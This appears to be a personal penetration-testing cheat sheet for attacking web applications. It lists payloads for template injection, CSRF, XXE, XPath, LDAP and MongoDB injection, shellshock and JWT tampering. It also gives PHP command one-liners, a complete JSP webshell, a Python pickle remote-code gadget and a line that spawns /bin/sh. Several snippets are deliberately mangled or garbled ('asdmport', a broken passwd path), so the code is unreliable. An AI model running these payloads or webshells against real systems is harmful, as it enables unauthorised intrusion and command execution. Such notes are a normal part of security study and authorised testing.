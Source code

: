```yaml
---
title: Web Application Methodology
date: 2021-09-19
categories:
  - Notes
tags:
  - Web App
  - Notes
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```


<style>
  .fieldset
  {
      border:2px solid black;
      -moz-border-radius:8px;
      -webkit-border-radius:8px;	
      border-radius:8px;	
      font-size:12px;
      padding:10px;
      width:250px;
  }
  </style>

<h2 id="wtdvsawbapp">What to do vs a Web App</h2>

<ul>
    <li>check website is it php,asp or html</li>
    <li>check source code does it use cms</li>
    <li>Check robots.txt/sitemap.xml</li>
    <li>chech cert for useful info - subdomain?</li>
    <li>Gobuster dir and subdomain</li>
    <li>nikto</li>
    <li>Authorization vulns</li>
    <li>Code Injections? - can you control an input/data - eval(input)</li>
    <li>sqli? - https://www.hackingarticles.in/bypass-filter-sql-injection-manually/</li>
    <li>xxs?</li>
    <li>WIP</li>
    <li>SSRF</li>
    <li>Server-side template injection - {{''.__class__.mro()[1].__subclasses__()[X](COMMAND)}} or {{url_for.__globals__.os.popen("id").read() }} or TPLMAP.py</li>
    <li>CSRF - <.img src="https://vulnerable-website/email/change?email=pwned@evil-user.net"> or tool=xsrfprobe</li>
    <li>xml entities - <!DOCTYP3 test [
      <!ENTITY x SYSTEM "file:///etxc/paxswd">]></li>
      <li>xpath - hacker']%00 or hacker' or 1=1]%00 --- ?name=hacker' or 1=1]/parent::*/child::node()%00&password=sdf</li>
      <li>objectinputstream- exploitation of a call to readObject - rO0 in cookie</li>
</ul>

<h2>ldap</h2>
<li>null bind - delete username&password data in body</li>
<li>ldap wildcard - adm*))%00</li>

<h2>mongodb</h2>
<li>injection? - hyst'|| 1==1 %00</li>


<h2>basic php oneliner</h2>
<code>php system($requests['hyst']); ?></code>
<code>?php system($_GET["cmd"]);?></code>
<code>?php print exec('command'); ?></code>



<h2>shellshock</h2>
<code>() { :;}; echo; `command`</code>
<p>echo to add a black space between headers and body output</p>

<h2>JWT</h2>
<p>header.data.signature - all in base64</p>
<p>set alg to None - remove signature </p>

<h2>apache and tomcat</h2>
<p>encoding of .. = %252e%252e</p>
<p>/manager/html</p>

<fieldset>
  
  <legend>webshell</legend>
  <pre><code>
    <.FORM METHOD=GET ACTION='index.jsp'>
    <.INPUT name='cmd' type=text>
    <.INPUT type=submit value='Run'>
    <./FORM>
    <%@ page import="java.io.*" %>
    <%
       String cmd = request.getParameter("cmd");
       String output = "";
       if(cmd != null) {
          String s = null;
          try {
             Process p = Runtime.getRuntime().exec(cmd,null,null);
             BufferedReader sI = new BufferedReader(new
    InputStreamReader(p.getInputStream()));
             while((s = sI.readLine()) != null) { output += s+"<./br>"; }
          }  catch(IOException e) {   e.printStackTrace();   }
       }
    %>
    <.pre><%=output %><./pre></code></pre>

      <p>remove dots after "<" save as .jsp</p>

</fieldset>

<h2>serialization</h2>
<h4>Python</h4>
<p>Pickle</p>

<fieldset>
  
  <legend>Python Serialization</legend>
  <pre><code>
    asdmport cPickle
    asdmport os
    
    asdclass Blah(object):
      def __reduce__(self):
        return (os.system,('command'.))'
    
    
    b = Blah()
    print cPickle.dumps(b)
    
  </code></pre>
</fieldset>

<li>run script</li>
<li>base64 encode result</li>
<li>replace server thingy</li>


<h2>xml</h2>
<p>https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xxe.md</p>



<h2>ECB Vuln</h2>

<fieldset>
  
  <legend>ECB ruby to decode</legend>
  <pre><code>
% irb
> require 'base64' ; require 'uri'
 => true
> Base64.decode64(URI.decode("OR9hcp18%2BC1bChK10NlRRg%3d%3d"))
 => "9\x1Far\x9D|\xF8-[\n\x12\xB5\xD0\xD9QF"
    

</fieldset>

<h2>lfi/rfi</h2>
<p>https://raghavtalwar4.gitbook.io/privilege-escalation-cheatsheet/owasp-top-10-and-more/lfi-rfi-cheatsheet</p>
g0tmilk
asd__import__('os').system('/bin/sh')asd  